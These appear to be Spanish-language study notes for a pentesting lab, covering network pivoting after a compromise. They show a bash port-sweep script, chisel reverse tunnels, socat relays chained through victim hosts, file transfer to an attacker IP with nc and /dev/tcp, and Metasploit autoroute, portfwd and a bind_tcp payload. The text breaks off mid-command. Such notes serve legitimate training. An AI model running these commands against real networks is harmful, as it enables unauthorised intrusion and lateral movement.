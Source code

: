 
----

## Manual
----
>Jugaremos con 5 machines

- Red 

>Empezamos

- Arp-scan debería salir sólo 1 
- Importante escanear si es linux o windows o lo que corresponda

>Enumeramos puertos desde una máquina vulnerada

```bash
#!/bin/bash

for i in $(seq 1 254); do
	for port in 21 22 80 443 445 8080; do
		timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN| &

	done
done; wait
```

- Una vez ganado aceso, compartir chisel a maquina victima
```bash
scp chisel user@ip:/tmp/chisel
```

- Cuidado de **que no coincidan los puertos** del túnel con **otros servicios o reverse shells corriendo**

1. Llegar a una IP

> Atacante
```bash
chisel server --reverse -p 1234
``` 

> Victim, quiero que el puerto **80 de la víctima** sea **mi puerto 80**
```bash
chisel client IPAtaque:1234 R:80:IpVictim:80
```

2. Llegar a todo el segmento de red

> Atacante
```bash
chisel server --reverse -p 1234
``` 
- Configuramos **/etc/proxychains4.conf**
```bash
nano /etc/proxychains4.conf
socks5 127.0.0.1 1080
#Chisel abre el puerto por defecto 1080
```
- Ahora pasamos con nmap por el túnel
```bash
proxycahins4 nmap -sT -Pn -n IP 2>/dev/null # probas con -sS 
```
- Con **gobuster**
```bash
gobuster -w wordlist http://IP --proxy socks5://127.0.0.1:1080
```

> Victim
1. Si quiero ver todo el segmento de red de la **2 vícitima**
```bash
chisel client IPAtaque:1234 R:socks #Si no funciona socks5
```
2. Si quiero el puerto 443 de la victima por udp
```bash
chisel client IPAtaque:1234 R:443:IpVictim:443/udp
```



>Ahora si queremos hacer una petición desde la víctima

Nos descargamos **chisel** y se lo pasamos a la victima
- Victim
>Básicamente decimos, eh tú, todo lo que venga por el 4343, redirígelo a esa **IP:Port**
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:80
```
- Desde la víctima, podemos ver el **archivo.txt** qu etenemos en la maquina atacante
```bash
curl http://ipPrimeraVictima:4343/archivo.txt
```

- transferir archivos de una máquina a otra
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:1234
cat < archivazo > /dev/tco/IPAtacante/4343
nc -nvlp 1234 > archivazo
```


- Cuándo queremos llegar a una 3 máquina

1. Le pasamos **chisel.exe** a la máquina windows, que es la 3º
```bash
smbserver.py smbFolder /home/usuario -smb2support
```
2. Desde la windows, ya que tenemos varios túneles
```bat
copy \\IP\smbFolder\chisel.exe chisel.exe
```
3. Ya **teníamos 1 server de chisel** corriendo y **2 clients**
```bash
# Atacante
chisel server --reverse -p 1234

# 1 máquina, mi puerto 80 será el puerto de esta máquina
chisel client IPAtaque:1234 R:80:IPMaquinaacomprometer2:80
# 1.1 Para hacer lo mismo pero para todo el segmento y puertos
chisel client IPAtaque:1234 R:socks

# 2 máquina, primer puerto inventado para hacer la conexión hacia allí
chisel client IPMAquinaComrometida1:5555 R:socks R:443:IPMAquinaaComprometer3:443/udp
# 2 máquina para hacer la conexión Inversa
chisel client IPMAquinaComprometida1:6666 R:socks R:8888:socks
# 1 máquina por la conexión inversa
./socat TCP-LISTEN:6666,fork TCP:IPATACANTE:1234

# 3 máquna Windows
# 3 máquina para hacer la conexión Inversa
chisel client IPMAquinaComprometida2:7776  R:9999:socks
# 2 máquina por la conexión inversa
./socat TCP-LISTEN:7776,fork TCP:IPMaquinaComprometida1:5454
# 1 máquina por la conexión inversa
./socat TCP-LISTEN:5454,fork TCP:IPatacante:1234
```

- En el archivo **/etc/proxychains4.conf** representar el último túnel  creado comentar strict_chain y ponerlo en **dynamic_chain**
```bash
nano /etc/proxychains4.conf

dynamic_chain

socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
socks5 127.0.0.1 1080
```
>Copiar  Archivos **desde la máquina atacante** a **máquina comprometida** (Siempre se lo pasamos al nodo más cercano)

- Una vez se compromete la última máquina (Y tenemos los proxys montados con **chisel**) queremos pasarle un archivo 
1. **3º Máquina comprometida**
```cmd
C:\Windows\system32>copy \\IPAtacante\smbFolder\nc64.exe C:\Windows\Temp\nc.exe
```
2. **2º Máquina Comprometida**
```bash
./socat TCP-LISTEN:445,fork TCP:IPVictima1:445
```

3. **1º Máquina comprometida**
```bash
./socat TCP-LISTEN:445,fork TCP:IPAtacante:445
```
4. Atacante
```bash
smbserver.py smbFolder /ruta -smb2support
```

5. SI una de la máquinas por donde paso el archivo es windows
```bash
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectadress=NodoMásCercano
```
## Metasploit

1. Si comprometemos, sólo podremos **escanear desde dentro de metasploit**
- Al comprometer runa máquina añadiremos Rutas
```bash
meterpreter> run autoroute -s DirRed/Mascara
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash

use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la áquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p 1234 localhost
```

 - Explotación
 >Abremos bind_shell y la víctima abre el Peuerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp